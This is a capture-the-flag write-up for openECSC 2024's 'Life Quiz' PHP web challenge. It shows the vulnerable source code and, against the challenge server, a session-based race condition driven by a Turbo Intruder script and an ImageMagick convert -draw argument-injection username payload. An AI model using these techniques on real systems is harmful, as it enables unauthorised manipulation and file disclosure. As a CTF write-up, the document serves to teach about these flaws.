






import FigCaption from "../../../components/FigCaption.astro";
import { FileTree } from "@astrojs/starlight/components";

Life Quiz was a web challenge in round 1 of [2024's openECSC](https://open.ecsc2024.it/). To solve this challenge, it was necessary to exploit
a race conditions as well as a command injection was.

---

This CTF challenge was white-box. E.g. the source was given. In addition to the source code, we also get a URL pointing
us to the live server.



<FigCaption caption="Life Quiz challenge description." />

## Getting an overview

Looking through the hosted web application, we get an overview of what Life Quiz is about. After registering an account
and logging in, we have three options:

1. Answer quiz questions. When we answer correctly, we get a point. After each attempt, we get a new question.
2. Request a prize. However, when we do that we are informed that we must first play the game.
3. Reset points. This resets our points and our current question.



<FigCaption caption="login.php – To perform actions on Life Quiz, we must first register and log in to an account." />



<FigCaption caption="quiz.php – On the quizzing page, we can answer questions with one of four options." />



<FigCaption caption="prize.php – No prize for us ): To get a prize, we have to answer questions!" />



<FigCaption caption="reset.php – Resets the current question to the first one and our points to 0." />

## Looking through the code

Now that we roughly know what this website is about, lets look through the code to find out what we really need to do
to get the flag! If you want to have a look for yourself, download the challenge source
[here](/2024-03-24-openecsc-2024-life-quiz-ctf-writeup/lifequiz.zip).

<FileTree>
- src
  - db.php
  - get_prize.php
  - header.php
  - index.php
  - login.php
  - prize.php
  - quiz.php
  - reset.php
  - trophy.php
- docker-compose.yml
- Dockerfile
- init.sql
- trophy.jpg
</FileTree>

I like to work backwards from the flag to a way to get at it. The only place the flag is directly referenced is in the
Dockerfile.

```dockerfile {12} title="Dockerfile"
FROM php:8.1-apache

RUN docker-php-ext-install mysqli && docker-php-ext-enable mysqli

RUN apt update && apt install -y imagemagick

RUN mkdir /prizes
RUN chown -R www-data:www-data /prizes

COPY trophy.jpg /trophy.jpg

RUN convert -draw 'text 0,1219 "flag{test_flag}"' -pointsize 60 -gravity Center /trophy.jpg /prizes/flag.jpg
```

As we can see in the highlighted line, during the container build, the flag will be inserted as a text string into
an image `/prizes/flag.jpg`. While the path `/prizes/flag.jpg` is never used as is in the code, there is one file that
comes pretty close. Namely `get_prize.php`.

```php collapse={1-29, 54-54} {38} title="get_prize.php"
<?php

session_start();

if (!isset($_SESSION['user'])) {
    header('Location: index.php');
    exit();
}

include_once 'db.php';
include_once 'header.php';

$conn = db_connect();
$user = $_SESSION['user'];

$sql = "SELECT * FROM users WHERE id = '$user'";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    $row = $result->fetch_assoc();
    $question_id = $row['question_id'];
    $points = $row['points'];
    $username = $row['username'];
} else {
    echo "Please refresh the page";
    session_destroy();
    $conn->close();
    exit();
}


if ($points < $PRIZE_POINTS) {
    echo "<p>You have $points points</p><p>You need to answer $PRIZE_POINTS questions correctly to get the prize :/</p>";
} else {

    if ($question_id != -1) {

        // Print the prize
        $cmd = "convert -draw " . escapeshellarg("text 0,1219 \"$username\"") . " -pointsize 100 -gravity Center /trophy.jpg /prizes/$user.jpg &";
        echo system($cmd, $retval);

        if ($retval !== 0) {
            echo "Error getting your prize";
            $conn->close();
            exit();
        }

        $sql = "UPDATE users SET question_id = -1 WHERE id = '$user'";
        $conn->query($sql);
    }

    echo "Your prize is ready, you can find it <a href='/prize.php'>here</a>!<br>";
}

$conn->close();
```

Looking through the `convert` documentation, if we could get this code path to execute, we could inject a graphic
primitive (more on that later) to load the flag image into our personal image and retrieve the flag that way. What's
stopping us here is getting 15 points.

The only code path in the code base incrementing our points counter is located in `quiz.php`.

```php collapse={1-46, 55-68, 99-500} {80-81} title="quiz.php"
<?php

session_start();

include_once 'db.php';
include_once 'header.php';

$conn = db_connect();

$question_id = 1;

// If the user is not logged in, redirect
if (!isset($_SESSION['user'])) {
    echo "<meta http-equiv='refresh' content='0;url=login.php'>";
    $conn->close();
    exit();
} else {
    $user = $_SESSION['user'];

    // Get the current question
    $sql = "SELECT * FROM users WHERE id = '$user'";
    $result = $conn->query($sql);
    if ($result->num_rows > 0) {
        $row = $result->fetch_assoc();
        $question_id = $row['question_id'];
        $points = $row['points'];
        $username = $row['username'];
    } else {
        echo "Please refresh the page";
        session_destroy();
        $conn->close();
        exit();
    }

    if (!isset($_POST['answer'])) {
        echo "<div class='alert alert-primary'>You have $points points</div>";
    }

    // If the user has answered all the questions, show the flag
    if ($points >= $PRIZE_POINTS) {
        echo "Congratulations! You did a great job, get your prize <a href='/get_prize.php'>here</a>!<br>";
        $conn->close();
        exit();
    }
}


if ($question_id > $QUESTION_N) {
    echo "You answered all the questions, but you need at least $PRIZE_POINTS points to get the prize :(<br>";
    echo "<a class='btn btn-primary mt-3' href='/reset.php'>Reset your progress</a>";
    $conn->close();
    exit();
}

$db_question_id = (($question_id - 1) % 5) + 1;


$sql = "SELECT * FROM questions WHERE id = $db_question_id";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    $row = $result->fetch_assoc();
    $question = $row['question'];
    $answers = json_decode($row['answers'], true);
} else {
    echo "No question found";
    $conn->close();
    exit();
}

// If the user has submitted an answer, check if it is correct
if (isset($_POST['answer'])) {
    $answer = $_POST['answer'];
    $correct_answer = $answers[array_rand($answers)];

    echo "<h3 class='mb-3'>Question $question_id</h3>";
    $question_id++;
    if ($answer === $correct_answer) {
        echo "<p>Correct!</p>";

        $sql = "UPDATE users SET points = points+1 WHERE id = '$user'";
        $conn->query($sql);
    } else {
        echo "<p>Incorrect!<br>The correct answer was: $correct_answer</p>";
    }

    if ($question_id > $QUESTION_N) {
        echo "<p>You answered all the questions!</p>";
        echo "<a class='btn btn-primary my-3' href='quiz.php'>Next</a><br>";
    } else {
        echo "<a class='btn btn-primary my-3' href='quiz.php'>Next question</a><br>";
    }

    $sql = "UPDATE users SET question_id = $question_id WHERE id = '$user'";
    $conn->query($sql);
    $conn->close();
    exit();
}

$conn->close();

echo "<h3>Question $question_id</h3>";
echo "<p class='my-3'>$question</p>";
echo "<form method='post' class='col-4 mx-auto'>";
echo '<div class="list-group">';
foreach ($answers as $option) {
    echo '<input class="btn-check me-1" type="radio" name="answer" id="'. $option .'" value="' . $option . '">';
    echo '<label class="btn btn-light my-1" for="' . $option . '">';
    echo $option;
    echo '</label>';
}
echo '</div>';
echo "<input class='btn btn-primary w-100 mt-3' type='submit' value='Submit'>";
echo "</form>";

?>
```

However, the correct answers is determined randomly for each request. We also only have 15 tries before we are locked
out of the quizzing system and must reset our progress.

Summing up, the first obstacle is to get a user with 15 points. After that, we can exploit a command injection on the
`convert` utility to get the contents of `/prizes/flag.jpg` and with that the flag.

## Getting 15 points

Let's revisit `quiz.php`! Our chances of guessing correctly 15 times in a row are `0.25 ^ 15 -> 0.000000001`. So
guessing the questions until we get lucky 15 times in a row is not feasible.  We'll have to find another way then.
One thing that strikes us is that none of the SQL statements use transactions. Furthermore, the statement updating a
users points is executed *after* that users `question_id` is incremented. We might be able to exploit this fact as a
race condition by answering each question multiple times at the same time.

When trying that however, we are faced with an issue: PHP sessions have a lock. At the beginning of `quiz.php`,
`session_start()` is called. This PHP standard library function checks the `PHPSESSID` cookie for the connecting users
current session and initializes corresponding session data if present. If another requests with that `PHPSESSID` is
currently being run, `session_start()` will wait until that session has completed before resuming execution. If only we
could bypass the session locking and exploit that race condition. Then we could get ourselves 15 points.

It turns out we can! While the session prevents us from running code of the same session at the same time, neither the
standard library nor the login/registration code prevents us from simply opening multiple sessions for a single user.

```php collapse={16-999} title="login.php"
<?php

session_start();

if (isset($_SESSION['user'])) {
    header('Location: index.php');
    exit();
}

include_once 'db.php';
include_once 'header.php';


if (isset($_POST['email'])) {
    $conn = db_connect();

    $email = $_POST['email'];

    // check if the email is valid
    if (!preg_match('/^[a-zA-Z0-9_\.\@]+$/', $email)) {
        echo "<div class='alert alert-danger'>Invalid email</div>";
    } else {

        // check if the user exists
        $sql = "SELECT * FROM users WHERE email = '$email'";
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
            if (isset($_POST['password'])) {
                // check password
                $row = $result->fetch_assoc();
                if ($row['password'] === $_POST['password']) {
                    $_SESSION['user'] = $row['id'];
                    echo "<meta http-equiv='refresh' content='0;url=/'>";
                } else {
                    echo "<div class='alert alert-danger'>Invalid password</div>";
                }
            } else {
                echo "<div class='alert alert-danger'>Email already registered</div>";
            }
        } else {
            if (isset($_POST['password'])) {
                echo "<div class='alert alert-danger'>User not found, please register first</div>";
            } else {
                // create a new user
                $id = bin2hex(random_bytes(16));
                $password = bin2hex(random_bytes(8));

                $sql = "INSERT INTO users (id, email, username, password) VALUES ('$id', '$email', ?, ?)";
                $stmt = $conn->prepare($sql);
                $stmt->bind_param('ss', $_POST['username'] , $password);

                if (!$stmt->execute()) {
                    echo "Error creating user";
                    $stmt->close();
                    $conn->close();
                    exit();
                }

                echo "<div class='alert alert-success'>User created! Your password is \"$password\"</div>";
                $stmt->close();
            }
        }
        $conn->close();
    }
}

?>

<div class=container>
    <div class="row align-items-start">
        <div class="col-6">
            <h3>Register</h3>
            <form method="post" class="mt-4 mx-4">
                <input type="text" class="form-control my-2" name="username" placeholder="username" required>
                <input type="text" class="form-control my-2" name="email" placeholder="email" minlength="5" required>
                <input type="submit" class="btn btn-primary my-2 w-100" value="Register">
            </form>
        </div>
        <div class="col-6">
            <h3>Login</h3>
            <form method="post" class="mt-4">
                <input type="text" class="form-control my-2" name="email" placeholder="email" required>
                <input type="password" class="form-control my-2" name="password" placeholder="password" required>
                <input type="submit" class="btn btn-primary my-2 w-100" value="Login">
            </form>
        </div>
    </div>
</div>
```

We can exploit this fact by creating multiple sessions for one user and answering the users current questions with each
of the sessions all at once. To get a few session cookies, we simply send a few login requests to the login endpoint
and save the `PHPSESSID` we get back.

```bash title="curl" collapse={3-13, 28-999} {24}
$ curl 'http://lifequiz.challs.open.ecsc2024.it/login.php' --compressed -X POST -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'email=some%40user&password=12441785aa9b939b' -v

Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 23.88.122.57:80...
* Connected to lifequiz.challs.open.ecsc2024.it (23.88.122.57) port 80 (#0)
> POST /login.php HTTP/1.1
> Host: lifequiz.challs.open.ecsc2024.it
> User-Agent: curl/7.81.0
> Accept: */*
> Accept-Encoding: deflate, gzip, br, zstd
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 45
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Cache-Control: no-store, no-cache, must-revalidate
< Content-Encoding: gzip
< Content-Length: 684
< Content-Type: text/html; charset=UTF-8
< Date: Mon, 25 Mar 2024 16:54:45 GMT
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Pragma: no-cache
< Server: Apache/2.4.57 (Debian)
< Set-Cookie: PHPSESSID=9187973e9fb92a478752578c02c586d7; path=/
< Vary: Accept-Encoding
< X-Powered-By: PHP/8.1.27
<
<html>
  <head>
    <title>Life Quiz</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-QWTKZyjpPEjISv5WaRU9OFeRpok6YctnYmDr5pNlyT2bRjXh0JMhjY6hW+ALEwIH" crossorigin="anonymous">
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap-icons@1.11.3/font/bootstrap-icons.min.css">
  </head>
  <body>

  <nav class="navbar navbar-expand-lg navbar-light bg-light">
        <div class="container-fluid">
            <a class="navbar-brand" href="/">Life Quiz</a>
            <div class="collapse navbar-collapse" id="navbarNav">
                <ul class="navbar-nav">
                    <li class="nav-item">
                                <a class="nav-link" href="/login.php">Login</a>
                            </li>                </ul>
            </div>
        </div>
    </nav>

    <div class="container my-3 text-center"><meta http-equiv='refresh' content='0;url=/'>
<div class=container>
    <div class="row align-items-start">
        <div class="col-6">
            <h3>Register</h3>
            <form method="post" class="mt-4 mx-4">
                <input type="text" class="form-control my-2" name="username" placeholder="username" required>
                <input type="text" class="form-control my-2" name="email" placeholder="email" minlength="5" required>
                <input type="submit" class="btn btn-primary my-2 w-100" value="Register">
            </form>
        </div>
        <div class="col-6">
            <h3>Login</h3>
            <form method="post" class="mt-4">
                <input type="text" class="form-control my-2" name="email" placeholder="email" required>
                <input type="password" class="form-control my-2" name="password" placeholder="password" required>
                <input type="submit" class="btn btn-primary my-2 w-100" value="Login">
            </form>
        </div>
    </div>
* Connection #0 to host lifequiz.challs.open.ecsc2024.it left intact
</div>
```

With that, we assemble them into a list and use a framework like burp suites turbo intruder to trigger the race
condition.

```
POST /quiz.php HTTP/1.1
Host: lifequiz.challs.open.ecsc2024.it
Content-Length: 9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://lifequiz.challs.open.ecsc2024.it
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://lifequiz.challs.open.ecsc2024.it/quiz.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=%s
Connection: close

answer=%s
```
```python
sessions = [
    "a84f664fa191229fbe34a0b5f4a5308e",
    "2a380a58956a3b545a7fd1f46aa6ef67",
    "d400068b115b724ba926a189e49e815f",
    "9750fca1b255d2b86d9fa8fd32b7be8c",
    "c79dead651c442bbc7285430a027e28f",
]
quizEndpoint = "http://lifequiz.challs.open.ecsc2024.it/quiz.php"

answers = [
    "42",
    "To%20express%20emotions",
    "To%20be%20free",
    "Yes",
    "In%20the%20city",
]
questionNum = 0 # Change this to the current question_id


def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=quizEndpoint,
                           concurrentConnections=12,
                           engine=Engine.THREADED
                           )

    for session in sessions:
        engine.queue(target.req, [session, answers[questionNum]], gate='race1')

    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

With each run, we now get one to two points. More than enough to reach the 15 points mark within the 15 guesses.


## Exploiting the command injection

Now that we can reliably forge users with 15 or more points, we can reliably execute the image generation code mentioned
above.

```php title="get_prize.php" collapse={1-29, 54-54} {38-39}
<?php

session_start();

if (!isset($_SESSION['user'])) {
  header('Location: index.php');
  exit();
}

include_once 'db.php';
include_once 'header.php';

$conn = db_connect();
$user = $_SESSION['user'];

$sql = "SELECT * FROM users WHERE id = '$user'";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    $row = $result->fetch_assoc();
    $question_id = $row['question_id'];
    $points = $row['points'];
    $username = $row['username'];
} else {
    echo "Please refresh the page";
    session_destroy();
    $conn->close();
    exit();
}


if ($points < $PRIZE_POINTS) {
    echo "<p>You have $points points</p><p>You need to answer $PRIZE_POINTS questions correctly to get the prize :/</p>";
} else {

    if ($question_id != -1) {

        // Print the prize
        $cmd = "convert -draw " . escapeshellarg("text 0,1219 \"$username\"") . " -pointsize 100 -gravity Center /trophy.jpg /prizes/$user.jpg &";
        echo system($cmd, $retval);

        if ($retval !== 0) {
            echo "Error getting your prize";
            $conn->close();
            exit();
        }

        $sql = "UPDATE users SET question_id = -1 WHERE id = '$user'";
        $conn->query($sql);
    }

    echo "Your prize is ready, you can find it <a href='/prize.php'>here</a>!<br>";
}

$conn->close();
```

The command in this code path runs the utility convert (used for editing images of various formats) to add the name of
the winning user to their personal trophy. Out of the box the command does not give the user the challenges flag!
Since the username is escaped using `escapeshellargs()`, we can't easily exfiltrate `/prizes/flag.png` via netcat.
We might be able to inject additional arguments into `convert` however. Indeed, the documentation for `convert -draw`
states that one of the allowed image primitives - besides `text`, `circle` and more - is `image`.

```raw title="man convert" {20}
-draw _string_

annotate an image with one or more graphic primitives

Use this option to annotate an image with one or more graphic
primitives.  The primitives include shapes, text,
transformations, and pixel operations.  The shape primitives are

     point           x,y
     line            x0,y0 x1,y1
     rectangle       x0,y0 x1,y1
     roundRectangle  x0,y0 x1,y1 wc,hc
     arc             x0,y0 x1,y1 a0,a1
     ellipse         x0,y0 rx,ry a0,a1
     circle          x0,y0 x1,y1
     polyline        x0,y0  ...  xn,yn
     polygon         x0,y0  ...  xn,yn
     Bezier          x0,y0  ...  xn,yn
     path            path specification
     image           operator x0,y0 w,h filename

[...]

Use image to composite an image with another image. Follow the
image keyword with the composite operator, image location, image
size, and filename:

     -draw 'image Over 100,100 225,225 image.jpg'

You can use 0,0 for the image size, which means to use the
actual dimensions found in the image header. Otherwise, it will
be scaled to the given dimensions.  See -compose for a
description of the composite operators.
```

As per the documentation, we could create a user named something like "image Over 500,500 1000,1000 /prizes/flag.png",
get that users points to 15 and our trophy would have the flag image embedded into it. One last obstacle remains though.
The user column only allows up to 36 character long usernames. Making that injection as small as possible and taking the
quotes into account, our end result for the command injection payload is this: `"image Over 0,0 0,0"/prizes/flag.jpg`.

We just need to create a user of that name, get that user to 15 points and the flag should be ours.




<FigCaption caption="I won't give out the real flag here of course :) " />

## Summing up

All in all, while it did almost cost me my sanity a few times, I really liked this challenge. With just 33 solves out of
more than 1800 participants, it was definitely on the more challenging side. But none of that difficulty was due to
gotchas or guessing. It being a white-box challenge with source code provided was also a big plus for me since I
much prefer white-box over black-box challenges.

Big shout out to the author, Xato, whoever you are :)
